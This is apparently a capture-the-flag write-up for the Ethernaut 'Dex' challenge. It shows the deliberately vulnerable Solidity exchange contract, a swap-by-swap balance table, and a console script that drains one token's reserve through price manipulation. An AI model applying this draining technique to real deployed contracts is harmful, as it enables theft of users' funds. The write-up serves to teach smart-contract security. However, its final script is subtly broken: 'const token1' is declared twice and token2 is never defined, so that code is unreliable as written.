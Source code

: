 ```yaml
---
title: Ethernaut - Dex - Solution
date: '2024-07-01'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Dex CTF
---
```


# Ethernaut - Dex - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract Dex is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function addLiquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableToken(token1).approve(msg.sender, spender, amount);
        SwappableToken(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableToken is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```

## Solution

The goal of this challenge is to steal the entire balance of at least one of the two tokens from the dex.

When executing the `swap()` function twice in a row, i.e., swapping 10 `token1` for 10 `token2` and subsequently swapping our entire balance of 20 `token2`, we notice that we receive 24 `token1`!
In other words, we can drain one of the tokens from the dex entirely, simply by swapping the player's entire balance back and forth multiple times in a row.

More specifically, we have the following table, where p1 and p2 are the player's balances of `token1` and `token2` and d1 and d2 are the dex's balances, respectively:

| p1 | p2 | d1  | d2  | `swapAmount` for next swap |
|----|----|-----|-----|----------------------------|
| 10 | 10 | 100 | 100 | -                          |
|  0 | 20 | 110 |  90 | 20 * 110 / 90 = 24         |
| 24 |  0 |  86 | 110 | 24 * 110 / 86 = 30         |
|  0 | 30 | 110 |  80 | 30 * 110 / 80 = 41         |
| 41 |  0 |  69 | 110 | 41 * 110 / 69 = 65         |
| 0  | 65 | 110 | 45  | 65 * 110 / 45 = 158        | 

Notice that, if we were to swap the player's entire balance of 65 `token2` in the last of the above steps, we'd end up with 158 `token1` according to our table.
This, however, would exceed the dex's `token1` balance!
For this reason, we must swap an amount such that `swapAmount` becomes 110 instead of 158.
In other words, we need to solve

```
x * 110 / 45 == 110
```

which tells us that our last swap needs to exchange 45 instead of 65 `token2`.
This way, we ensure to get precisely 110 `token1` back, draining the entire `token1` balance from the dex.

Lastly, notice that we need to first approve the dex for a sufficiently high amount of both `token1` and `token2` in order to execute the above sequence.
Looking at the above table, we see that an allowance of 1000 is more than enough.

As a summary, we can solve the level via the Ethernaut console as follows:

```javascript
const token1 = await contract.token1()
const token1 = await contract.token1()

await contract.approve(contract.address, 1000)

await contract.swap(token1, token2, 10)
await contract.swap(token2, token1, 20)
await contract.swap(token1, token2, 24)
await contract.swap(token2, token1, 30)
await contract.swap(token1, token2, 41)

await contract.swap(token2, token1, 45)
```
